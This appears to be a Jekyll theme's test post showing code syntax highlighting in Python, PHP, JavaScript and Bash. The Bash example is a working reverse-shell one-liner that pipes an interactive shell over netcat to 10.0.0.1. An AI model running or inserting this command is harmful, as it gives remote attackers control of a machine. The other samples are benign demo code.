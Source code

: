 ```yaml
---
layout: post
title:  "test post with all the shit"
date:   2021-09-29 
categories:
robots: noindex
---
```

# Syntax highlighting
This theme supports syntax respectively code highlighting. Below you find some examples of different programming languages.
<br /><br />python:
{% highlight python %}
def func():
     # function body
     print("hello world!")

     def setup(app):
         # enable Pygments json lexer
         try:
             import pygments
             if pygments.__version__ >= '1.5':
                 # use JSON lexer included in recent versions of Pygments
                 from pygments.lexers import JsonLexer
             else:
                 # use JSON lexer from pygments-json if installed
                 from pygson.json_lexer import JSONLexer as JsonLexer
         except ImportError:
             pass  # not fatal if we have old (or no) Pygments and no pygments-json
         else:
             app.add_lexer('json', JsonLexer())

         return {"parallel_read_safe": True}

words = ['cat', 'window', 'defenestrate']
for w in words:
   print w, len(w)
{% endhighlight %}


<br /><br />php:
{% highlight php %}
<?php function add($x, $y) {
    $total = $x + $y;
    return $total;
}
echo "1 + 16 = " . add(1, 16);
?>
{% endhighlight %}


<br /><br />js:
{% highlight javascript %}
function sayHello(name) {
  if (!name) {
    console.log('Hello World');
  } else {
    console.log(`Hello ${name}`);
  }  
}  

function myFunc(a, b) {
    return a * b;
}
document.getElementById('demo').innerHTML = myFunc(4, 3);
{% endhighlight %}
{% highlight bash %}
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
{% endhighlight %}

![ntcrwlr](https://media.discordapp.net/attachments/755055101281960077/892955389170184212/crptd.png)

